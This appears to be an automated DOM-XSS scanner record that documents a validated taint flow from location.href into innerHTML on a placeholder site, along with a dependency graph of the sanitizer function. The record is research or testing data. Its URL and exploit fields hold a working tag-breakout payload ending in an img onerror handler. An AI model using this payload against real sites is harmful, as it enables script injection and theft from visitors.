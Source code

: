 // Finding: 72ae21c8-2fc1-4c54-baa8-8fd1f197fd17
// Finding.url: https://business.example366.com/advertising##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4cc8dfb5162495fb26beeeab026d202')><!--/*
// Finding.parentloc: https://business.example366.com/advertising##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4cc8dfb5162495fb26beeeab026d202')><!--/*
// Finding.domain: business.example366.com
// Finding.base_domain: example366.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: createBreadcrumbs
// Sanitizer.location: https://cdn-us-ec.example367.com/58a4671832f01c09d60000d0/business.example366.com/v~4b.b0/siteassets/js/business.js?yocs=4_ - createBreadcrumbs:1:10687
// Finding.begin: 49
// Finding.end: 56
// Finding.original_uuid: 1720d2a9-4e6f-47fb-a3d7-9a77a3df8651
// Finding.TwentyFiveMillionFlowsId: 488533994
// Finding.script: https://cdn-us-ec.example367.com/58a4671832f01c09d60000d0/9ee76170f16201340bc4026173a6dedd.example367.com/v~4b.b0/jquery-3.3.1.min.js?yocs=4_
// Finding.line: 2
// Exploit.uuid: e4cc8dfb-5162-495f-b26b-eeeab026d202
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 27
// Exploit.end_taint_url: 38
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 25
// Exploit.replace_end_param: 25
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1733983749
// DepGraph.sanitizer_hash: -1733983749

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: /"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="strtoupper"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[-]/"];
n8 [shape=box, label="Lit:  "];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="preg_replace"];
n11 [shape=box, label="RegExp: / AND /"];
n12 [shape=box, label="Lit:  & "];
n13 [shape=box, label="Var: x"];
n14 [shape=ellipse, label="str_replace_once"];
n15 [shape=box, label="Lit: ON CENTER"];
n16 [shape=box, label="Lit: ON-CENTER"];
n17 [shape=box, label="Var: x"];
n18 [shape=box, label="Var: x"];
n19 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n5 -> n1;
n4 -> n5;
n9 -> n4;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n13 -> n6;
n10 -> n11;
n10 -> n12;
n10 -> n13;
n17 -> n10;
n14 -> n15;
n14 -> n16;
n14 -> n17;
n18 -> n14;
n19 -> n18;
}